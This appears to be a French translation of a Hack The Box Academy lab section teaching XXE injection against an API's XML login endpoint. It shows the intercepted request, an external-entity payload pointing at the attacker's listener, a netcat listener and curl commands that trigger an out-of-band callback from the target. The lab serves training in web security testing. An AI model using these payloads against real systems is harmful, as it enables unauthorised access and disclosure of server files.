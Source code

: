 Injection d'entité externe XML (XXE)
====================================

* * * * *

Les vulnérabilités d'injection d'entité externe XML (XXE) se produisent lorsque des données XML sont extraites d'une entrée contrôlée par l'utilisateur sans les nettoyer correctement ou les analyser en toute sécurité, ce qui peut nous permettre d'utiliser des fonctionnalités XML pour effectuer des actions malveillantes. Les vulnérabilités XXE peuvent causer des dommages considérables à une application Web et à son serveur principal, de la divulgation de fichiers sensibles à l'arrêt du serveur principal. Notre module [Web Attacks](https://academy.hackthebox.com/module/details/134) couvre en détail les vulnérabilités XXE Injection. Il convient de noter que les vulnérabilités XXE affectent aussi bien les applications Web que les API.

Évaluons ensemble une API vulnérable à XXE Injection.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la.

Supposons que nous évaluons une telle application résidant dans `http://<TARGET IP>:3001`.

Au moment où nous naviguons `http://<TARGET IP>:3001`, nous tombons sur une page d'authentification.

Exécutez Burp Suite comme suit.

```
dsgsec@htb[/htb]$ burpsuite

```

Activez le proxy de burp suite ( *Intercept On* ) et configurez votre navigateur pour le parcourir.

Essayons maintenant de nous authentifier. Nous devrions voir ci-dessous dans le proxy de Burp Suite.

![image](https://academy.hackthebox.com/storage/modules/160/11.png)

Code : http

```
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>

```

-   Nous remarquons qu'une API gère la fonctionnalité d'authentification des utilisateurs de l'application.
-   L'authentification de l'utilisateur génère des données XML.

Essayons de créer un exploit pour lire des fichiers internes tels que */etc/passwd* sur le serveur.

Tout d'abord, nous devrons ajouter un DOCTYPE à cette demande.

Qu'est-ce qu'un DOCTYPE ?

DTD signifie Définition de type de document. Une DTD définit la structure et les éléments et attributs juridiques d'un document XML. Une déclaration DOCTYPE peut également être utilisée pour définir des caractères spéciaux ou des chaînes utilisées dans le document. La DTD est déclarée dans l'élément facultatif DOCTYPE au début du document XML. Des DTD internes existent, mais les DTD peuvent être chargées à partir d'une ressource externe (DTD externe).

Notre charge utile actuelle est :

Code : xml

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>

```

Nous avons défini une DTD appelée *pwn* , et à l'intérieur de celle-ci, nous avons un fichier `ENTITY`. Nous pouvons également définir des entités personnalisées (c'est-à-dire des variables XML) dans des DTD XML pour permettre la refactorisation des variables et réduire les données répétitives. Cela peut être fait en utilisant le mot-clé ENTITY, suivi du `ENTITY`nom et de sa valeur.

Nous avons appelé notre entité externe *somename* , et elle utilisera le mot clé SYSTEM, qui doit avoir la valeur d'une URL, ou nous pouvons essayer d'utiliser un schéma/protocole URI tel que `file://`pour appeler des fichiers internes.

Configurons un écouteur Netcat comme suit.

```
dsgsec@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...

```

Faisons maintenant un appel API contenant la charge utile que nous avons conçue ci-dessus.

```
dsgsec@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>

```

Nous remarquons qu'aucune connexion n'est établie avec notre auditeur. C'est parce que nous avons défini notre entité externe, mais nous n'avons pas essayé de l'utiliser. Nous pouvons le faire comme suit.

```
dsgsec@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```

Après l'appel à l'API, vous remarquerez qu'une connexion est établie avec l'écouteur.

```
dsgsec@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close

```

L'API est vulnérable à l'injection XXE.
